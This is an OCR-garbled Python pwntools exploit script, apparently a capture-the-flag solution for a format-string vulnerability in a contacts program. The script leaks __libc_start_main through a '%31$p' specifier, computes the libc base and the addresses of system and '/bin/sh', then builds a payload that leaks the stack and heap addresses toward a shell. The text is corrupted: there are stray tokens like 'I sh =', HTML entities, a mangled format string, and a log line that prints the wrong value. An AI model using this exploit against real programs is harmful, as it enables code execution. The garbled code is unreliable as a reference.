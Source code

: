 ```python
	sh.recvuntil('Length of description: ')

	sh.sendline(descrip_len)

	sh.recvuntil('description:\n\t\t')

	sh.sendline(description)

def printcontact(io):

I sh =
sh.recvuntil (&#39;&gt;&gt;&gt;&#39;)
	sh.sendline('4')

	sh.recvuntil('Contacts:')

	sh.recvuntil('Description: ')



# Gdb.attach (I)


createcontact (io, &quot;1&quot;, &quot;1&quot;, &quot;111&quot;, &quot;% 31 $ paaaa&quot;)
printcontact (I)
libc_start_main = int(io.recvuntil('aaaa', drop=True), 16)-241

log.success('get libc_start_main addr: ' + hex(libc_start_main))

libc_base=libc_start_main-libc.symbols["__libc_start_main"]

system=libc_base+libc.symbols["system"]

binsh=libc_base+next(libc.search("/bin/sh"))

log.success("system: "+hex(system))

log.success("binsh: "+hex(binsh))



payload = '%6$p%11$pccc'+p32(system)+'bbbb'+p32(binsh)+"dddd"

createcontact(io,'2', '2', '111', payload)

printcontact (I)
io.recvuntil (&#39;Description:&#39;)
data = io.recvuntil('ccc', drop=True)

data = data.split('0x')

print data

ebp_addr = int(data[1], 16)

heap_addr = int(data[2], 16)+12

log.success("ebp: "+hex(system))

log.success("heap: "+hex(heap_addr))



```